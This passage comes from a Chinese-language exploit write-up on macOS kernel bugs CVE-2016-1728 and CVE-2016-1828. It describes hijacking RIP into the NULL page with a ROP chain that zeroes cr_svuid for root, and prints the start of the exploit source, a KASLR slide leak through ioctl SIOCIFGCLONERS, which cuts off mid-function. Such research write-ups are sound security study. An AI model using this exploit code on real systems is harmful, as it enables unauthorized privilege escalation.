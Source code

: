 [![](https://p2.ssl.qhimg.com/t01de2387810e90217d.png)](https://p2.ssl.qhimg.com/t01de2387810e90217d.png)

而rax寄存器现在为`0x0000000000000000`

[![](https://p2.ssl.qhimg.com/t0193863bcbc428a9f7.png)](https://p2.ssl.qhimg.com/t0193863bcbc428a9f7.png)

现在已经可以控制RIP跳转到`NULL页`上去了，只要分配该处的存储空间，布置上我们提权的ROP即可

[![](https://p5.ssl.qhimg.com/t01843420b721597722.png)](https://p5.ssl.qhimg.com/t01843420b721597722.png)

最后在`NULL页`作ROP，将cr_svuid设置成`0`，关于gadget的查找可以用`librop`这份代码

[[传送门]](https://github.com/wooy0ung/macos-exploits)

完整的exp已上传到Github上，这里给出核心利用代码

```
//
//  main.c
//  CVE-2016-1728 info leak
//  CVE-2016-1828 uaf
//  Created by wooy0ung on 2018/12/27.
//

#include &lt;stdio.h&gt;
#include &lt;unistd.h&gt;
#include &lt;net/if.h&gt;
#include &lt;sys/ioctl.h&gt;
#include "librop/librop.h"


char buffer[IFNAMSIZ];

struct if_clonereq ifcr = `{`
    .ifcr_count = 1,
    .ifcr_buffer = buffer,
`}`;

static uint64_t kernel_slide=0;


static int
is_kernel_pointer(uint64_t addr) `{`
    return (0xffffff7f00000000 &lt;= addr &amp;&amp; addr &lt; 0xffffff8100000000);
`}`

static int
is_kernel_slide(uint64_t slide) `{`
    return ((slide &amp; ~0x000000007fe00000) != 0);
`}`

int get_kaslr() `{`
    uint64_t leak;
    int sockfd = socket(AF_INET,SOCK_STREAM,0);
    int err = ioctl(sockfd,SIOCIFGCLONERS,&amp;ifcr);
    printf("rn[&gt;] Leak kernel_sliden");
    leak = *(uint64_t *)(buffer+8);
    if (!is_kernel_pointer(leak)) `{`
        printf("t[-] error: leak 0x%016llxn", leak);
        return -1;
    `}`
    kernel_slide = *(uint64_t *)(buffer+8) - 0xffffff800033487f;    // dev 0xffffff80002ef3af
    if (is_kernel_slide(kernel_slide)) `{`
        printf("t[-] error: kernel_slide 0x%016llxn", kernel_slide);
```